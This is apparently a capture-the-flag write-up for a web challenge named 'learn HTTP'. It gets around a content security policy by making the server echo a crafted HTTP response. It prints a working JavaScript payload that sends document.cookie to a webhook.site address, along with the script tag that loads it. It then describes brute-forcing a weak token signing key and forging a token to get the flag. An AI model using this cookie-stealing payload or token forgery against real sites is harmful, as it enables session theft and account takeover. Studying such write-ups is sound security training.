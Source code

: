 # learn HTTP
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here there is a CSP which allows script with source same as host is allowed, we can formulate the javascript payload and pass the URL to js as the `src` ro the script.

```
HTTP/1.1 200 OK
Content-type: text/javascript
Content-length: 85

fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)
```

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 267

<script src="http://localhost:5001/resp?body=HTTP%2F1.1%20200%20OK%0D%0AContent-type%3A%20text%2Fjavascript%0D%0AContent-length%3A%2085%0D%0A%0D%0Afetch%28%60https%3A%2F%2Fwebhook.site%2F7c0b4f46-d927-4d8e-8601-3d70d049fe4c%3F%24%7Bdocument.cookie%7D%60%29"></script>
```

![hook response](hook.png)

We get the token in the request, after bruting the signing key, we find it as `password`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`